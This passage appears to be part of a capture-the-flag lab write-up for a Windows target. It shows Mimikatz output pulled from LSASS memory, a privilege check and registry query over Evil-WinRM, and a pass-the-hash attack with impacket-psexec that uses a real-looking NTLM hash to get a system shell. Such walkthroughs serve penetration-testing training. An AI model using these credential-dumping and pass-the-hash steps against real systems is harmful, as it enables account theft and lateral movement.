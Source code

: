 ```
         * Domain   : WIN-TIP7RVRBJ8E
         * Password : (null)

[... Additional output ...]

Special Entry: FLAG{B***********5}
```

**🎯 FLAG 3 FOUND**: FLAG{B**********5} - In LSASS memory

**Why This Works**: Windows stores credentials in LSASS (Local Security Authority Subsystem Service) memory for single sign-on. WDigest (when enabled) stores plaintext passwords!

### FLAG 4: Debug Privilege Exploitation

**Location**: Registry accessible with debug privileges  
**Difficulty**: Medium

```powershell
# Check current privileges
*Evil-WinRM* PS C:\Temp> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                    State
============================= ============================== ========
SeDebugPrivilege              Debug programs                 Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

# With SeDebugPrivilege, access protected registry
*Evil-WinRM* PS C:\Temp> reg query "HKLM\SOFTWARE\DebugFlags"

HKEY_LOCAL_MACHINE\SOFTWARE\DebugFlags
    Flag    REG_SZ    FLAG{S***********9}
```

**🎯 FLAG 4 FOUND**: FLAG{S**********9} - Debug privilege flag

### FLAG 5: Pass-the-Hash Attack

**Location**: Accessible after successful PTH  
**Difficulty**: Hard

Using NTLM hashes from Mimikatz:

```bash
# From Kali, use the Administrator NTLM hash
┌──(kali㉿kali)-[~]
└─$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef Administrator@192.168.148.101

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 192.168.148.101.....
[*] Found writable share ADMIN$
[*] Uploading file XYZABC.exe
[*] Opening SVCManager on 192.168.148.101.....
[*] Creating service TEST on 192.168.148.101.....
[*] Starting service TEST.....
[!] Press help for extra shell commands

C:\Windows\system32> type C:\Windows\System32\config\systemprofile\pth_success.txt
FLAG{M***********9}
```
